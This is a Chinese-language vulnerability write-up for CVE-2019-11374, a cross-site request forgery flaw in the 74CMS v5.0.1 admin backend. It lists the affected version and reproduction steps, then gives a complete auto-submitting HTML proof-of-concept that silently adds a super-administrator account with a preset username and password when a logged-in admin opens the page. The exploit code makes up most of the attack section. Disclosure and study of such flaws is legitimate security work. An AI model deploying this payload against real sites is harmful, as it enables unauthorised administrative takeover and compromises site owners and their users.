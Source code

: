 （CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞
=========================================================

一、漏洞简介
------------

在74CMS
v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：`/index.php?m=admin&c=admin&a=add`攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。

二、漏洞影响
------------

74CMS v5.0.1

三、复现过程
------------

首先我们登录后台页面，并添加管理员，然后添加信息，用burp\_suite抓包

1.png

当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户

2.png

    <!DOCTYPE html>
    <html>
      <head>
      <title> CSRF </title>
      <script type="text/javascript">
        function exec1(){
          document.getElementById('form1').submit();
        }
      </script>
      </head>
      <body onload="exec1();">
        <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
          <input type="hidden" name="username" value="admin688" />
      <input type="hidden" name="email" value="111111111@qq.com" />
          <input type="hidden" name="password" value="admin688" />
          <input type="hidden" name="repassword" value="admin688" />  
      <input type="hidden" name="role_id" value="1" />
        </form>
      </body>
    </html>

参考链接
--------

> https://www.023niu.com/show-62-32-1.html
